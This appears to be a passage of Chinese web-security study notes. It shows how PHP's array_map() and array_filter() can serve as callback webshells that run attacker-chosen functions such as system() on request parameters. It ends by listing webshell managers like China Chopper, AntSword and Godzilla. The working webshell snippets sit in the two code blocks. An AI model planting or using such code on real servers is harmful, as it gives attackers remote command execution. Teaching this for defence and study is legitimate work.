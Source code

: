 ![a9f4c4384bb9fb84fd5a67b5b0d31ce3](../../../../../../QQ_Message/2625446028/nt_qq/nt_data/Pic/2024-08/Ori/a9f4c4384bb9fb84fd5a67b5b0d31ce3.png)

###### ⑤array_map()

* 将**用户自定义函数**作用于数组的每个值上，并**返回**用户自定义函数作用后的带有新值的数组，起到绕过作用

* ```php
  <?php
  // ?e=system&cmd=whoami&ip=ipconfig
  $func1 = $_REQUEST['e'];
  $cmd = $_REQUEST['cmd'];
  $ip = $_REQUEST['ip'];
  $array[0] = $cmd;
  $array[1] = $ip;
  $new_array = array_map($func1,$array);
  ?>
  ```

  ![array_map](../../images/8-17-afternoon/array_map.png)

###### ⑥array_filter()

* 依次将array数组中的每个值传递到**回调函数**，如果返回true，则array数组的当前值会被**包含在返回的结果数组**中

* ```php
  <?php
  //?f=system&who=whoami
  $who = $_REQUEST['who'];
  $array1 = array($who);
  $func2 = $_REQUEST['f'];
  @array_filter($array1,$func2);
  ?>
  ```

![array_filter](../../images/8-17-afternoon/array_filter.png)

#### (3)管理工具

##### a.中国菜刀

##### b.C刀

##### *c.蚁剑*

##### d.哥斯拉
